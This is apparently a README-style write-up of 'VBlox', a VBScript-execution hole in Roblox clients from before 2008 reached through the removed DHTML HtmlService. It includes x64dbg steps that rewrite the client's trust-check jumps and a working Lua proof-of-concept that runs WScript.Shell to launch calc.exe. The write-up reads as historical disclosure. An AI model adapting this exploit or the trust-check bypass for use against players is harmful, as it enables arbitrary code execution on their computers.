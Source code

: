 ![Get it? VBlox.](assets/vblox.png)
VBlox is a vulnerability in clients before January 2008 that allows for VBScript execution which uses ROBLOX's now-removed DHTML feature. DHTML, as the name suggests, was a service which allowed players to display HTML documents within ROBLOX. Unlike GUIs, DHTML windows were completely new windows that would open on a player's computer which were based off of Trident, which was Internet Explorer's browser engine. 

The main reason for DHTML's removal was because it was easily exploitable (shown here), mainly for place stealing, but can also be used to run VBScript by malicious attackers. DHTML's very short life span (being removed in January of 2008) suggests that Roblox was very aware of the security issues it created. A year and a half later, in 2009, Roblox would release a replacement for DHTML, known as PlayerGUIs, a built-in GUI display system which could do nearly everything DHTML could other than render HTML.
# Explanation
![lol](assets/diagram.png)

When a LocalScript in StarterPack is executed, a HtmlWindow can be created which can run VBScript, leading to [arbitrary code execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution).
# How to patch
* Open the client you want to patch in x64dbg.
* Go to Symbols and then open the roblox.exe module.
* Go to the string search icon (Az) and search for "HtmlService". Open the first result.
* Scroll up, and 3 lines above you should see a jne/jnz instruction. Make sure to replace those with a jmp.
* Go to references and open the second trust check and repeat the same process, then press `CTRL+P` to complete the patch.
# Example
The following code below is a LocalScript that first runs VBScript, which runs Shell code, and that Shell code later opens calc.exe.
```lua
local w = game:GetService("HtmlService"):NewWindow()

w.DocumentComplete:connect(function()
	w:SetBody([==[
	<html>
	<head><title>Test</title></head>
	<body>
		<h3>ROBLOX is loading the game..</h3>

		<script language="VBScript">
		Set WshShell = CreateObject("WScript.Shell")
		WshShell.Run "calc.exe"
		</script>

	</body>
	</html>
	]==])
	w:Show()
end)

w:Navigate()
```
